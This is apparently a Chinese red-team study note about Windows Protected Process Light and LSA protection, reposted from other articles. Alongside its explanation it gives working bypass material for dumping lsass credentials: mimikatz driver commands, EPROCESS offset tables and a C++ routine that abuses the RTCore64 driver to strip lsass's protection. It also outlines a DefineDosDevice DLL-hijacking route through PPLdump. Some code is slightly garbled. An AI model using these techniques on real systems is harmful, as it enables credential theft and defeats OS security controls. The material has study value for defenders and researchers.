

来源：https://www.freebuf.com/articles/system/332506.html和红队蓝军的一篇文章
od分析过程似懂非懂，留着以后补坑
1.简介 PPL，Protected Process Light ，但在此之前，只有Protected Process。Windows Vista / Server 2008引入了受保护进程的概念，其目的不是保护您的数据或凭据。其最初目标是保护媒体内容并符合DRM（数字版权管理）要求。Microsoft开发了此机制，以便您的媒体播放器可以读取例如蓝光，同时防止您复制其内容。当时的要求是映像文件（即可执行文件）必须使用特殊的Windows Media证书进行数字签名（如Windows Internals的“受保护的过程”部分所述）。
在实践中，一个受保护的过程可通过未保护的过程仅具有非常有限的权限访问： PROCESS_QUERY_LIMITED_INFORMATION ， PROCESS_SET_LIMITED_INFORMATION ， PROCESS_TERMINATE 和 PROCESS_SUSPEND_RESUME 。对于某些高度敏感的过程，甚至可以减少此设置。
几年后，从Windows 8.1 / Server 2012 R2开始，Microsoft引入了Protected Process Light的概念。PPL实际上是对先前“受保护过程”模型的扩展，并添加了“保护级别”的概念，这基本上意味着某些PP（L）进程可以比其他进程受到更多保护。
基本概念 定义保护级别 Protected Process Light的内部结构
https://docs.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
在windows中，EPROCESS结构现在具有以下类型的”保护”字段：
1 2 3 4 5 6 7 8 9 10 typedef struct _PS_PROTECTION { union { UCHAR Level; struct { UCHAR Type : 3; UCHAR Audit : 1; // Reserved UCHAR Signer : 4; }; }; } PS_PROTECTION, *PPS_PROTECTION;
其中Type定义进程是 PP 还是 PPL，Type的值可以是以下之一：
1 2 3 4 5 _PS_PROTECTED_TYPE PsProtectedTypeNone = 0n0 PsProtectedTypeProtectedLight = 0n1 PsProtectedTypeProtected = 0n2 PsProtectedTypeMax = 0n3
Signer即实际保护级别,Signer的值可以是以下之一：
1 2 3 4 5 6 7 8 9 _PS_PROTECTED_SIGNER PsProtectedSignerNone = 0n0 PsProtectedSignerAuthenticode = 0n1 PsProtectedSignerCodeGen = 0n2 PsProtectedSignerAntimalware = 0n3 PsProtectedSignerLsa = 0n4 PsProtectedSignerWindows = 0n5 PsProtectedSignerWinTcb = 0n6 PsProtectedSignerMax = 0n7
_PS_PROTECTED_TYPE和_PS_PROTECTED_SIGNER结构的定义如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 typedef enum _PS_PROTECTED_TYPE { PsProtectedTypeNone = 0, PsProtectedTypeProtectedLight = 1, PsProtectedTypeProtected = 2 } PS_PROTECTED_TYPE, *PPS_PROTECTED_TYPE; typedef enum _PS_PROTECTED_SIGNER { PsProtectedSignerNone = 0, // 0 PsProtectedSignerAuthenticode, // 1 PsProtectedSignerCodeGen, // 2 PsProtectedSignerAntimalware, // 3 PsProtectedSignerLsa, // 4 PsProtectedSignerWindows, // 5 PsProtectedSignerWinTcb, // 6 PsProtectedSignerWinSystem, // 7 PsProtectedSignerApp, // 8 PsProtectedSignerMax // 9 } PS_PROTECTED_SIGNER, *PPS_PROTECTED_SIGNER;
进程的保护级别就通过这两个值组合定义，有几种常见的组合，比如这里将_PS_PROTECTION的值修改为0x72就能够将一个普通的进程变为受保护状态
可以编写函数判断进程的保护级别
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 bool FindProcessProtect() { PS_PROTECTION ProtectInfo = { 0 }; NTSTATUS ntStatus = ZwQueryInformationProcess(NtCurrentProcess(), ProcessProtectionInformation, &ProtectInfo, sizeof(ProtectInfo), NULL); bool = false; bool Result2 = false; if (NT_SUCCESS(ntStatus)) { Result1 = ProtectInfo.Type == PsProtectedTypeNone && ProtectInfo.Signer == PsProtectedSignerNone; PROCESS_EXTENDED_BASIC_INFORMATION ProcessExtenedInfo = { 0 }; ntStatus = ZwQueryInformationProcess(NtCurrentProcess(), ProcessBasicInformation, &ProcessExtenedInfo, sizeof(ProcessExtenedInfo), NULL); if (NT_SUCCESS(ntStatus)) { Result2 = ProcessExtenedInfo.IsProtectedProcess == false && ProcessExtenedInfo.IsSecureProcess == false; } } return Result2 && Result1; }
2.LSA LSA即RunAsPPL，虽然lsass进程有PPL，微软为了防止非管理非 PPL 进程通过开放访问或篡改 PPL 进程中的代码和数据推出了LSA，但是在一般情况下是并没有启用的
没有启用LSA的时候能够使用mimikatz正常抓取密码
开启LSA就不能使用mimikatz正常抓密码了
开启lsa过程
找到HKLM\SYSTEM\CurrentControlSet\Control\Lsa然后添加一个DWORD值RunAsPPL，并把值从0改为1即可开启LSA
启用lsa之后的lsass
重启之后我们再尝试提权之后抓取密码，已经看到这里报错0xc0000005，这里异常出在kuhl_m_sekur1sa_acquireLSA模块
kuhl_m_sekurlsa.c
去到kuhl_m_sekurlsa_acquireLSA函数，我们看一下核心的代码，首先找到通过进程名获取PID，然后通过OpenProcess获得句柄
判断句柄是否为INVALID_HANDLE_VALUE即无效句柄，如果为无效句柄直接调用PRINT_ERROR
PRINT_ERROR_AUTO是一个宏，其作用是打印出失败函数的名称和错误代码，底层调用GetLastError来打印出错误信息，这里也就是说
mimidrv.sys绕过LSA 加载之后即可关闭LSA保护，正常dump hash
1 2 3 4 !+ #该命令会从用户模式启动驱动程序，并请求为当前令牌分配`SeLoadDriverPrivilege !procoessprotect /process:lsass.exe /remove sekurlsa::logonpasswords
原理 mimikatz首先检查驱动程序在当前工作目录中是否存在，如果找到磁盘上的驱动程序，则开始创建服务。服务的创建是通过服务控制管理器（SCM）API函数来完成的。具体而言，advapi32!ServiceCreate将用于注册具有以下属性的服务
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 CreateService( hSC, //Handle to the SCM database provided by OpenSCManager 'mimidrv', //Service name 'mimikatz driver (mimidrv)', //Service display name READ_CONTROL | WRITE_DAC | SERVICE_START, //Desired access SERVICE_KERNEL_DRIVER, //Kernel driver service type SERVICE_AUTO_START, //Start the service automatically on boot SERVICE_ERROR_NORMAL, //Log driver errors that occur during startup to the event log 'C:\\path\\to\\mimidrv.sys', //Absolute path of the driver on disk NULL, //Load order group (unused) NULL, //Not used because the previous argument is NULL NULL, //No dependencies for the drive NULL, //Use NT AUTHORITY\SYSTEM to start the service NULL //Unused because we are using the SYSTEM account );
如果成功创建了服务，则Evervone组将被授予对该服务的访问权限，从而允许系统上的任何用户与该服务进行交互。例如，低特权的用户可以停止该服务
然后通过StartService来启动服务

EPROCESS禁用LSA 修改EPROCESS结构体的值来绕过LSA，在2004版本的0x878偏移存放着SignatureLevel，我们需要将着连续的几个字节修改为0，分别是SignatureLevel、SectionSignatureLevel、Level、Type、Audit和Signer
如何定位到lsass ？这里就需要找到内核机制，通过遍历PEB结构里的ActiveProcessLinks这个双向链表来找到
在win10 1607版本以后，微软更改了策略，将页目录基址更改为了随机地址，那么我们之前在win7里面直接定位PTE_Base的方法就不可用，那么我们就可以使用提取特征码的方式去定位内核模块的地址
首先在WinDbg中定位内核模块的地址
然后在内核模块中搜索与当前页表基址相同的值出现的位置，当前页表基址为0xFFFF800000000000
接着，在IDA中定位到数据所在的位置，可以看到是某行代码引用了这个值的硬编码
在WinDbg中查看这段代码，能够识别到位于CcUnpinFileDataEx函数。那么，由于系统每次启动时基址是不固定的，因此这些值也不可能是固定的硬编码，肯定对这些值进行了修改，在需要使用时，可以通过固定的偏移量提取硬编码，从而得到页表基址，但要注意不同版本的内核文件的偏移量可能是不同的
在不同版本的操作系统里面SignatureLevel在EPROCESS里面的偏移是不相同的，比如在2004里面位于0x878，而在1909版本则位于0x6f8，所以这里需要通过函数进行判断
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 struct Offsets getVersionOffsets() { wchar_t value[255] = { 0x00 }; DWORD BufferSize = 255; RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize); wprintf(L"[+] Windows Version %s Found\n", value); auto winVer = _wtoi(value); switch (winVer) { case 1607: return Offsets{ 0x02e8, 0x02f0, 0x0358, 0x06c8 }; case 1803: case 1809: return Offsets{ 0x02e0, 0x02e8, 0x0358, 0x06c8 }; case 1903: case 1909: return Offsets{ 0x02e8, 0x02f0, 0x0360, 0x06f8 }; case 2004: case 2009: return Offsets{ 0x0440, 0x0448, 0x04b8, 0x0878 }; default: wprintf(L"[!] Version Offsets Not Found!\n"); exit(-1); } }
然后根据函数定位到PsInitialSystemProcess函数，从EnumDeviceDrivers可以得到内核基址，通过循环找到lsass进程，寻找偏移将SignatureLevel、SectionSignatureLevel、Level、Type、Audit和Signer这5个值清0即可绕过
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 void disableProtectedProcesses(DWORD targetPID, Offsets offsets) { const auto Device = CreateFileW(LR"(\\.\RTCore64)", GENERIC_READ | GENERIC_WRITE, 0, nullptr, OPEN_EXISTING, 0, nullptr); if (Device == INVALID_HANDLE_VALUE) { Log("[!] Unable to obtain a handle to the device object"); return; } Log("[*] Device object handle has been obtained"); const auto NtoskrnlBaseAddress = getKernelBaseAddr(); Log("[*] Ntoskrnl base address: %p", NtoskrnlBaseAddress); HMODULE Ntoskrnl = LoadLibraryW(L"ntoskrnl.exe"); const DWORD64 PsInitialSystemProcessOffset = reinterpret_cast<DWORD64>(GetProcAddress(Ntoskrnl, "PsInitialSystemProcess")) - reinterpret_cast<DWORD64>(Ntoskrnl); FreeLibrary(Ntoskrnl); const DWORD64 PsInitialSystemProcessAddress = ReadMemoryDWORD64(Device, NtoskrnlBaseAddress + PsInitialSystemProcessOffset); Log("[*] PsInitialSystemProcess address: %p", PsInitialSystemProcessAddress); const DWORD64 TargetProcessId = static_cast<DWORD64>(targetPID); DWORD64 ProcessHead = PsInitialSystemProcessAddress + offsets.ActiveProcessLinksOffset; DWORD64 CurrentProcessAddress = ProcessHead; do { const DWORD64 ProcessAddress = CurrentProcessAddress - offsets.ActiveProcessLinksOffset; const auto UniqueProcessId = ReadMemoryDWORD64(Device, ProcessAddress + offsets.UniqueProcessIdOffset); if (UniqueProcessId == TargetProcessId) { break; } CurrentProcessAddress = ReadMemoryDWORD64(Device, ProcessAddress + offsets.ActiveProcessLinksOffset); } while (CurrentProcessAddress != ProcessHead); CurrentProcessAddress -= offsets.ActiveProcessLinksOffset; Log("[*] Current process address: %p", CurrentProcessAddress); WriteMemoryPrimitive(Device, 4, CurrentProcessAddress + offsets.SignatureLevelOffset, 0x00); // Cleanup CloseHandle(Device); }
在没有绕过LSA之前是不能够dump的，这里通过patch之后即可dump hash
DefineDosDevice https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-definedosdevicew
具体利用分析手法：
https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html
如函数名所示，DefineDosDevice的作用是定义MS-DOS设备名称。根据官方文档，MS-DOS设备名是对象管理器中的符号链接，格式为\DosDevices\DEVICE_NAME。我们插入外部驱动器或者USB设备时就会出现这种情况，设备会被自动分配一个驱动器号，比如E:，我们可以调用QueryDosDevice来查询对应的映射。
1 2 3 4 5 BOOL DefineDosDeviceW( [in] DWORD dwFlags, [in] LPCWSTR lpDeviceName, [in, optional] LPCWSTR lpTargetPath );
这里我们可以尝试使用QueryDosDevice来查询设备名
1 2 3 4 5 WCHAR path[MAX_PATH + 1]; if (QueryDosDevice(argv[1], path, MAX_PATH)) { wprintf(L"%ws -> %ws\n", argv[1], path); }
但是在这个地方我们并不使用DefineDosDevice的常规功能，而是通过DefineDosDevice创建dll，因为PPL是不检查dll的数字签名的，从而实现dll劫持绕过PPL
使用到PPLdump项目编译，即可绕过并dump出hash